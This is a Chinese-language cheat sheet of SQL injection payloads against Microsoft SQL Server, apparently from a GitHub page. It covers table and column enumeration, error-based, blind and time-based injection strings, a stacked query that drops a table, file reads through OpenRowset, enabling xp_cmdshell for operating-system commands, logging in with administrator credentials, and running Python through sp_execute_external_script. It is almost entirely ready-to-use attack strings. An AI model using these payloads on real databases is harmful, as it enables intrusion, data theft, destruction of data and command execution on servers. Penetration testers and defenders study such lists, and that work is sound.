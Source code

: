 	列出表
	$ SELECT name FROM Injection..sysobjects WHERE xtype = 'U'
	[*] Profiles
	[*] Roles
	[*] Users

	列出字段
	$ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
	[*] UserId
	[*] UserName

	导出数据
	$ SELECT  UserId, UserName from Users
  ##### 报错型注入
	整型 : convert(int,@@version)
	整型 : cast((SELECT @@version) as int)

	字符型   : ' + convert(int,@@version) + '
	字符型   : ' + cast((SELECT @@version) as int) + '
  ##### 盲注
	AND LEN(SELECT TOP 1 username FROM tblusers)=5 ; -- -

	AND ASCII(SUBSTRING(SELECT TOP 1 username FROM tblusers),1,1)=97
	AND UNICODE(SUBSTRING((SELECT 'A'),1,1))>64-- 

	AND ISNULL(ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0)))AS varchar(8000)),1,1)),0)>90

	SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'

	WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
	SELECT message FROM data WHERE row = 1 and message like 't%'
  ##### 延时型
  	ProductID=1;waitfor delay '0:0:10'--
	ProductID=1);waitfor delay '0:0:10'--
	ProductID=1';waitfor delay '0:0:10'--
	ProductID=1');waitfor delay '0:0:10'--
	ProductID=1));waitfor delay '0:0:10'--

	IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'     comment:   --
  ##### 堆查询
  	ProductID=1; DROP members--
  ##### 读文件
  	需要ADMINISTER BULK OPERATIONS 或 ADMINISTER DATABASE BULK OPERATIONS 权限
	-1 union select null,(select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)),null,null
  ##### 命令执行
	EXEC xp_cmdshell "net user";
	EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
	EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
	激活xp_cmdshell(sql server 2015中默认禁用状态)
	EXEC sp_configure 'show advanced options',1;
	RECONFIGURE;
	EXEC sp_configure 'xp_cmdshell',1;
	RECONFIGURE;
	交互
	sqsh -S 192.168.1.X -U sa -P superPassword
	python mssqlclient.py WORKGROUP/Administrator:password@192.168.1X -port 46758
	执行python脚本
	列出正在使用的用户
	EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
	EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
	打开并读取文件
